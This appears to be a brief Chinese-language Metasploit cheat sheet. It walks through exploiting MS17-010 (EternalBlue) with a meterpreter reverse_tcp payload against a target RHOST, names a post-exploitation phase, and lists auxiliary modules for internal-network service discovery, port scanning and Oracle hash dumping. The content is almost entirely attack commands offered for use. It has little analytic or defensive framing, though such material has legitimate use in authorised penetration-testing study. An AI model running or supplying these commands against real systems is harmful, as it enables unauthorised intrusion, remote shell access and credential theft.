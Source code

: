# Metasploit

---

进入框架：msfconsole

    使用search命令查找相关漏洞： search  ms17-010

    使用use进入模块:  use exploit/windows/smb/ms17_010_eternalblue

    使用info查看模块信息： info

    设置攻击载荷：set payload windows/x64/meterpreter/reverse_tcp

    查看模块需要配置的参数：show options

    设置参数：set  RHOST  192.168.125.138

    攻击：exploit /  run

    后渗透阶段
    
exploit漏洞利用模块路径：/usr/share/metasploit-framework/modules/exploits

payload模块路径：/usr/share/metasploit-framework/modules/payloads

search scanner type:auxiliary 搜索

auxiliary/scanner/ftp/ftp_version        #发现内网ftp服务，基于默认21端口

auxiliary/scanner/ssh/ssh_version        #发现内网ssh服务，基于默认22端口

auxiliary/scanner/telnet/telnet_version  #发现内网telnet服务，基于默认23端口

auxiliary/scanner/dns/dns_amp            #发现dns服务，基于默认53端口

auxiliary/scanner/http/http_version      #发现内网http服务，基于默认80端口

auxiliary/scanner/http/title             #探测内网http服务的标题

auxiliary/scanner/smb/smb_version        #发现内网smb服务，基于默认的445端口

use auxiliary/scanner/mssql/mssql_schemadump  #发现内网SQLServer服务,基于默认的1433端口

use auxiliary/scanner/oracle/oracle_hashdump  #发现内网oracle服务,基于默认的1521端口 

auxiliary/scanner/mysql/mysql_version    #发现内网mysql服务，基于默认3306端口

auxiliary/scanner/rdp/rdp_scanner        #发现内网RDP远程桌面服务，基于默认3389端口

auxiliary/scanner/redis/redis_server     #发现内网Redis服务，基于默认6379端口

auxiliary/scanner/db2/db2_version        #探测内网的db2服务，基于默认的50000端口

auxiliary/scanner/netbios/nbname         #探测内网主机的netbios名字

auxiliary/scanner/portscan/tcp           #基于tcp进行端口扫描(1-10000)

auxiliary/scanner/portscan/syn           #基于syn进行端口扫描

auxiliary/scanner/portscan/ack           #基于tcp的ack回复进行端口扫描，默认扫描1-10000端口

search -S auxiliary ssh
Metasploit扫描
